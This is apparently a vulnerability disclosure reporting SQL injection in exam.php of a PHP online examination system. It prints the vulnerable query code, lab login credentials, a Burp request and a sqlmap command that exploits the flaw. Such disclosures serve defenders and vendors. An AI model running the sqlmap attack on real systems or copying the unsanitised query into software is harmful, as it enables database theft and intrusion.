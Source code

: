 ## Online Examination System With Timer

## SQL Injection on `exam.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/index.php
glenn@gmail.com
glenn
```

### Affected Page:

```
/home.php?page=exam
```

The potential injection point is located in `exam.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# home.php
@$page = $_GET['page'];
if($page != '')
{
	if($page == "exam")
	{
		include("pages/exam.php");
	}
	else if($page == "result")
	{
		include("pages/result.php");
	}
	else if($page == "myscores")
	{
		include("pages/myscores.php");
	}
}
```

```php
# pages/exam.php
<?php 
   $examId = $_GET['id'];
   $selExam = $conn->query("SELECT * FROM exam_tbl WHERE ex_id='$examId' ")->fetch(PDO::FETCH_ASSOC);
   $selExamTimeLimit = $selExam['ex_time_limit'];
   $exDisplayLimit = $selExam['ex_questlimit_display'];
?>
```

### Proof of Concept:

**Burp Request:**

```
GET /home.php?page=exam&id=11 HTTP/1.1
Host: 192.168.150.131
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/home.php?page=exam&id=13
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close


```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**

![image-20240513163754335](./screenshot/image-20240513163754335.png)
